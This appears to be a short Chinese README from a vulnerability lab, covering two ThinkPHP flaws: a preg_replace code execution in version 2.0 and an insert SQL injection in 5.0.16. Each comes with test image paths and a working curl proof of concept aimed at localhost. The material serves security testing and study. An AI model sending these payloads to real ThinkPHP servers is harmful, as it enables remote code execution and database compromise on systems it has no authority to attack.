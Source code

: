 ### preg_replace 代码执行漏洞

测试镜像

* src/thinkphp/2.0/

说明

* 当 `URL_PATHINFO_MODEL` 设置为 `1` 时存在代码执行漏洞

Poc

```
curl http://127.0.0.1/index.php/module/action/param1/$%7B@phpinfo()%7D
```


### 5.0.16 insert 注入

测试镜像

* src/thinkphp/5.0.16/

参考文档

* [ThinkPHP框架 5.0.x sql注入漏洞分析](https://paper.seebug.org/564/)

Poc

```
curl '127.0.0.1/public/index.php/index/index/testsql?username[0]=inc&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)&username[2]=1
```

